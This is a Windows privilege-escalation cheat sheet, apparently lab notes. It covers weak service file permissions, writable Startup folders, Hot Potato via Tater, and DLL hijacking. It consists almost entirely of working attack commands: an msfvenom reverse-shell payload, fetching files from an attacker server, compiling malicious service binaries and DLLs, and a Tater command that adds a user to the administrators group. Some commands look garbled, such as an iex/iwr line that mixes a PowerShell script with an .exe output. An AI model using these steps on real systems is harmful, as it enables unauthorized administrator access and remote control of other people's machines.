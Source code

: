 ### Executable Files
* Detection
```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
\\RW Everyone  
\\  FILE_ALL_ACCESS  
net localgroup administrators
```

* Exploitation
```
wget https://raw.githubusercontent.com/sagishahar/scripts/master/windows_service.c (edit)
sudo apt install gcc-mingw-w64  
x86_64-w64-mingw32-gcc windows_service.c -o ok.exe
```
```
copy /yc:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc
```

### Startup Applications
* Detection - Windows
```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" | findstr (F)  
\\BUILTIN\Users:(F)
```

* msfvenom - Attacker VM
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o ok.exe
```

* Exploitation - Windows
```
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile ok.exe)
move ok.exe “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”
logoff
```
  
### Hot Potatle
* Exploitation
```
net localgroup administrators  
powershell.exe -nop -ep bypass  
powershell.exe -c "wget https://raw.githubusercontent.com/Kevin-Robertson/Tater/master/Tater.ps1 -O Tater.ps1"  
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1  
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"  
net localgroup administrators
```
  
### DLL Hijacking
* Exploitation
```
wget https://raw.githubusercontent.com/sagishahar/scripts/master/windows_dll.c (edit)  
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
move hijackme.dll <path>  
sc stop <service_name> & sc start <service_name>  
```
